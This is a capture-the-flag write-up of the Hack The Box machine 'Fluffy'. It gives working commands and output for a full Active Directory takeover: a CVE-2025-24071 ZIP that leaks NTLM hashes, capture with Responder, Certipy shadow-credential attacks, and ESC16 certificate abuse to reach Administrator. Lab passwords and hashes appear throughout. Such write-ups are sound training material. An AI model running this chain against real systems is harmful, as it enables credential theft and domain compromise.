



# Hack The Box - Fluffy (Easy)

Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Fluffy**. This machine starts with assumed breach — I'm given credentials for `j.fleischman` right from the start. From there, I'll abuse CVE-2025-24071 by uploading a malicious ZIP to a writable SMB share to steal `p.agila`'s NetNTLMv2 hash. I'll crack that hash and use BloodHound to find that `p.agila` has GenericWrite over service accounts. I'll abuse that with Certipy's shadow credentials attack to take over `winrm_svc` and get a WinRM shell. Finally, I'll exploit ESC16 in the ADCS environment using the `ca_svc` account to impersonate `Administrator` and get Domain Admin access.

## Reconnaissance

I started with a full port scan to see what services were exposed on the target.

```bash
nmap -p- --min-rate 10000 10.129.196.255
```

The scan revealed numerous Active Directory-related ports:

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
```

The open ports identify the target as the Domain Controller `DC01` for the `fluffy.htb` domain. I'll add the relevant info to my `/etc/hosts` file.

## Initial Access

As is common in real life Windows pentests, I start the Fluffy box with credentials for the following account: `j.fleischman` / `J0elTHEM4n1990!`

## Privilege Escalation

### Access as p.agila

Since I already have valid credentials I start by enumerating the exposed shares on SMB and find the non-default share `IT` where the account has read and write privileges.

```bash
$ nxc smb dc01.fluffy.htb -u 'j.fleischman' \
                          -p 'J0elTHEM4n1990!' \
                          --shares
SMB         10.129.196.255  445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False) 
SMB         10.129.196.255  445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.196.255  445    DC01             [*] Enumerated shares
SMB         10.129.196.255  445    DC01             Share           Permissions     Remark
SMB         10.129.196.255  445    DC01             -----           -----------     ------
SMB         10.129.196.255  445    DC01             IT              READ,WRITE      
```

I then use `smbclient` to get an interactive session on SMB and list the files in the IT share. There are two ZIP archives and their extracted contents as well as a PDF called `Upgrade_Notice.pdf` that I transfer to my host.

```bash
$ impacket-smbclient 'fluffy.htb/j.fleischman:J0elTHEM4n1990!'@dc01.fluffy.htb
# use IT
# ls
drw-rw-rw-          0  Sun May 25 22:31:37 2025 Everything-1.4.1.1026.x64
-rw-rw-rw-    1827464  Fri May 16 16:51:49 2025 Everything-1.4.1.1026.x64.zip
drw-rw-rw-          0  Fri May 16 16:51:49 2025 KeePass-2.58
-rw-rw-rw-    3225346  Fri May 16 16:51:49 2025 KeePass-2.58.zip
-rw-rw-rw-     169963  Sat May 17 16:31:07 2025 Upgrade_Notice.pdf
```

The PDF document shows recently found vulnerabilities and their CVE numbers. Especially `CVE-2025-24071` sounds interesting because one can steal NetNTLMv2 hashes with a prepared ZIP archive.



Luckily there are multiple proof-of-concepts available and I clone one of those repositories and run the provided Python script.

```bash
$ git clone https://github.com/0x6rss/CVE-2025-24071_PoC && cd CVE-2025-24071_PoC
 
$ python poc.py
Enter your file name: doesnotmatter
Enter IP (EX: 192.168.1.162): 10.10.10.10
completed
 
$ ls -la
-rw-rw-r-- 1 ryuki ryuki  336 May 25 15:44 exploit.zip
```

Before uploading the booby trapped archive with `smbclient`, I start responder to catch the incoming hash. After waiting a bit there's a connection from `p.agila` with the NTLMv2-SSP hash.

```bash
$ responder -I tun0 -A 
--- SNIP ---
[SMB] NTLMv2-SSP Client   : 10.129.196.255
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:536be0521d941cf7:016F5A093DC7D596B726900136677435:...
```

Hashcat is able to crack the hash with rockyou.txt and recovers the password `prometheusx-303`.

### Shell as winrm_svc

In order to map the domain and check out if `p.agila` has any interesting privileges I run `bloodhound-ce-python` to collect the data for BloodHound.

```bash
$ bloodhound-ce-python -d fluffy.htb \
                       -dc dc01.fluffy.htb \
                       -u 'p.agila' \
                       -p 'prometheusx-303' \
                       -c ALL \
                       -ns 10.129.196.255 \
                       --zip
```

After processing the data BloodHound shows a path forward. Due to the membership in **SERVICE ACCOUNT MANAGERS** the account `p.agila` can add itself to the **SERVICE ACCOUNTS** group and get GenericWrite over all the members of that group.



I add the account to the SERVICE ACCOUNTS group with `bloodyAD`.

```bash
$ bloodyAD --host 'dc01.fluffy.htb' \
           -d 'fluffy.htb' \
           -u 'p.agila' \
           -p 'prometheusx-303' \
           add groupMember 'SERVICE ACCOUNTS' 'p.agila'
[+] p.agila added to SERVICE ACCOUNTS
```

Now I perform shadow credentials attack with Certipy for each individual account.

```bash
$ faketime -f +7h certipy-ad shadow -account winrm_svc \
                                    -u 'p.agila@fluffy.htb' \
                                    -p 'prometheusx-303' \
                                    auto
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
 
$ faketime -f +7h certipy-ad shadow -account ca_svc \
                                    -u 'p.agila@fluffy.htb' \
                                    -p 'prometheusx-303' \
                                    auto
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
 
$ faketime -f +7h certipy-ad shadow -account ldap_svc \
                                    -u 'p.agila@fluffy.htb' \
                                    -p 'prometheusx-303' \
                                    auto
[*] NT hash for 'ldap_svc': 22151d74ba3de931a352cba1f9393a37
```

The NTLM hash for `winrm_svc` lets me use `evil-winrm` to connect to DC01 and collect the first flag.

### Shell as Administrator

As the service account that powers ADCS I run `certipy-ad find` to find any vulnerabilities and the tool reports the CA has misconfiguration tracked as **ESC16**.

```bash
$ certipy-ad find -u 'ca_svc@fluffy.htb' \
                  -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 \
                  -stdout \
                  -text \
                  -vulnerable
--- SNIP ---
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
```

Conveniently the requirements for ESC16 are satisfied by having an account with GenericWrite to modify the UPN, request a certificate and then remove the UPN again.

I start by modifying the `userPrincipalName` of `ca_svc` to be `administrator` and request a new certificate with that account.

```bash
$ certipy-ad account -u 'p.agila@fluffy.htb' \
                     -p 'prometheusx-303' \
                     -upn 'administrator' \
                     -user 'ca_svc' update
[*] Successfully updated 'ca_svc'
 
$ certipy-ad req -u 'ca_svc@fluffy.htb' \
                 -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 \
                 -ca 'fluffy-DC01-CA'
[*] Got certificate with UPN 'administrator'
[*] Saving certificate and private key to 'administrator.pfx'
```

Then I remove the UPN again and use the certificate to authenticate. This returns the TGT and NTLM hash for the Administrator account.

```bash
$ certipy-ad account -u 'p.agila@fluffy.htb' \
                     -p 'prometheusx-303' \
                     -upn 'ca_svc' \
                     -user 'ca_svc' update
[*] Successfully updated 'ca_svc'
 
$ faketime -f +7h certipy-ad auth -pfx administrator.pfx \
                                  -domain fluffy.htb \
                                  -u administrator \
                                  -dc-ip 10.129.196.255
[*] Got TGT
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

Now I can access the Domain Controller to collect the final flag.

## Attack Path

- **Assume breach** - start with valid credentials for `j.fleischman`.
- **Enumerate SMB shares** - find the `IT` share with read/write access.
- **Read Upgrade_Notice.pdf** - discover CVE-2025-24071 vulnerability.
- **Create malicious ZIP** - use PoC to generate exploit.zip with SMB path.
- **Start Responder** - listen for incoming NTLM hashes.
- **Upload exploit.zip** - place the booby-trapped archive on the IT share.
- **Capture NTLMv2 hash** - get `p.agila`'s hash through Responder.
- **Crack password** - use hashcat to recover `prometheusx-303`.
- **Run BloodHound** - collect AD data and find privilege escalation path.
- **Add to SERVICE ACCOUNTS** - use bloodyAD to gain GenericWrite access.
- **Shadow credentials attack** - use Certipy to take over `winrm_svc`.
- **Get WinRM shell** - connect with evil-winrm using `winrm_svc` hash.
- **Read user flag** - get the first flag from DC01.
- **Find ESC16 vuln** - run certipy-ad find as `ca_svc`.
- **Modify UPN** - change `ca_svc` UPN to `administrator`.
- **Request certificate** - get cert with Administrator UPN.
- **Restore UPN** - revert `ca_svc` UPN to original value.
- **Auth with certificate** - use administrator.pfx to get Administrator hash.
- **Read root flag** - complete the machine as Domain Admin.
